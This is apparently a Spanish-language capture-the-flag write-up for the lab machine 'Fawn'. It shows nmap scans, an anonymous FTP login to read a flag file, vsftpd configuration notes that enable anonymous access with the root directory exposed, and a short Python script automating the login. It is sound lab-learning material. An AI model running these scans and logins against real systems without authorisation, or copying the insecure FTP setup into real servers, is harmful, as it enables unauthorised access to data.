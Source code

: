 # Fawn

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.163.99

PING 10.129.163.99 (10.129.163.99) 56(84) bytes of data.
64 bytes from 10.129.163.99: icmp_seq=1 ttl=63 time=169 ms

--- 10.129.163.99 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 168.735/168.735/168.735/0.000 ms
```

El sistema operativo identificado es **Linux**.

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.163.99 -oG openPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -sCV -p 21 10.129.163.99 -oN targeted

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.71
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix
```

| Puertos | Servicios | Versión      |
| ------- | --------- | ------------ |
| 21      | ftp       | vsftpd 3.0.3 |

¿Qué es FTP?
[RFC](https://www.rfc-es.org/rfc/rfc0959-es.txt)

🗹 Conectarse al servidor mediante el protocolo FTP con el usuario **anonymous** y sin ingresar contraseña:

```shell
ftp ftp://anonymous:@10.129.163.99

Connected to 10.129.163.99.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp>
```

### Root flag

La **flag** se encuentra en el directorio principal:

`more flag.txt`
## Cositas aprendidas

✅ Configurar el servicio FTP:
- Instalar el servidor FTP **vsftpd** (Very Secure FTP Daemon): `sudo apt install vsftpd`.
- Configurar el servidor FTP modificando el archivo `/etc/vsftpd.conf`:

```shell
anonymous_enable=YES
anon_root=/
```

- Habilitar el servicio `vsftpd` con el comando `systemctl start vsftpd`.
- Si hacemos una actualización a la configuración del archivo `/etc/vsftpd` reiniciar el servicio con el comando `systemctl restart vsftpd`.
## Autopwn

```python
#!/usr/bin/env python3

import argparse
from ftplib import FTP
from termcolor import colored


def get_args():

    parser = argparse.ArgumentParser(prog='Fawn Autopwn')
    parser.add_argument('-t', '--target', help='Dirección IP del servidor', dest='target')

    return parser.parse_args()


def connect_to_ftp(target):

    ftp = FTP()
    ftp.connect(target)
    ftp.login()
    flag = []
    ftp.retrlines('RETR flag.txt', flag.append)
    flag = ''.join(flag)
    print(colored(f'\n[+]', 'blue'), 'Flag:', colored(f'{flag}', 'green'), colored('[+]', 'blue'))
    ftp.quit()


def main():

    print(colored('\n[+]', 'blue'), 'Fawn', colored('[+]', 'blue'))

    args = get_args()
    connect_to_ftp(args.target)

if __name__ == '__main__':

    main()
```
![Fawn Autopwn](/Images/fawn_autopwn.png)
